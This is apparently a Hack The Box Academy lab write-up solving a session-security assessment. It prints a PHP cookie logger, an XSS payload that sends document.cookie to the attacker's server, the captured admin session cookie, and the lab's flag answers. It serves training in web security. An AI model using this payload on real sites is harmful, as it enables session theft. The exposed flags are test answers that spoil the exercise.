# [Session Security](https://academy.hackthebox.com/module/details/153)

## Skills Assessment

You are currently participating in a bug bounty program.

- The only URL in scope is `http://minilab.htb.net`
- Attacking end-users through client-side attacks is in scope for this particular bug bounty program.
- Test account credentials:
    - Email: "heavycat106"
    - Password: "rocknrol"
- Through dirbusting, you identified the following endpoint `http://minilab.htb.net/submit-solution`

Find a way to hijack an admin's session. Once you do that, answer the two questions below.

### Questions

#### Question #01

**Question**

Read the flag residing in the admin's public profile. Answer format: `<string>`

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-omjhaeizjd]─[~]
└──╼ [★]$ echo -e '10.129.246.17\tminilab.htb.net' | sudo tee -a /etc/hosts

10.129.246.17	minilab.htb.net
```








```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-omjhaeizjd]─[~]
└──╼ [★]$ vim log.php

<?php
$logFile = "cookieLog.txt";
$cookie = $_REQUEST["c"];

$handle = fopen($logFile, "a");
fwrite($handle, $cookie . "\n\n");
fclose($handle);

exit;
?>

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-omjhaeizjd]─[~]
└──╼ [★]$ ifconfig tun0

tun0: flags=4305<UP,POINTOPOINT,RUNNING,NOARP,MULTICAST>  mtu 1500
        inet 10.10.15.8  netmask 255.255.254.0  destination 10.10.15.8

┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-omjhaeizjd]─[~]
└──╼ [★]$ php -S 10.10.15.8:8000

[Wed May 28 08:50:17 2025] PHP 8.2.26 Development Server (http://10.10.15.8:8000) started

[CONTINUE]
```

```javascript
<style>@keyframes x{}</style><video style="animation-name:x" onanimationend="window.location = 'http://10.10.15.8:8000/log.php?c=' + document.cookie;"></video>
```









```
[CONTINUE]

[Wed May 28 08:54:56 2025] 10.129.246.17:44022 Accepted
[Wed May 28 08:54:56 2025] 10.129.246.17:44020 Accepted
[Wed May 28 08:54:56 2025] 10.129.246.17:44022 [200]: GET /log.php?c=auth-session=s%3APFHQs7T0SYi7vFU-at8swljnMF8qF9wc.mmRLTpPfbGhhjquLVFjIB184lVt3lmQe1yK3JQ%2B2Oec
[Wed May 28 08:54:56 2025] 10.129.246.17:44022 Closing
[Wed May 28 08:54:57 2025] 10.129.246.17:44020 Closed without sending a request; it was probably just an unused speculative preconnection
[Wed May 28 08:54:57 2025] 10.129.246.17:44020 Closing
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-omjhaeizjd]─[~]
└──╼ [★]$ echo -n 's%3APFHQs7T0SYi7vFU-at8swljnMF8qF9wc.mmRLTpPfbGhhjquLVFjIB184lVt3lmQe1yK3JQ%2B2Oec' | sed 's/%/\\x/g' | xargs -0 echo -e

s:PFHQs7T0SYi7vFU-at8swljnMF8qF9wc.mmRLTpPfbGhhjquLVFjIB184lVt3lmQe1yK3JQ+2Oec
```







**Answer**

```
[YOU_ARE_A_SESSION_WARRIOR]
```

#### Question #02

**Question**

Go through the PCAP file residing in the admin's public profile and identify the flag. Answer format: `FLAG{string}`



```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-omjhaeizjd]─[~]
└──╼ [★]$ file download-pcap.pcap 

download-pcap.pcap: pcapng capture file - version 1.0
```



**Answer**

```
FLAG{SUCCESS_YOU_PWN3D_US_H0PE_YOU_ENJ0YED}
```

---
---
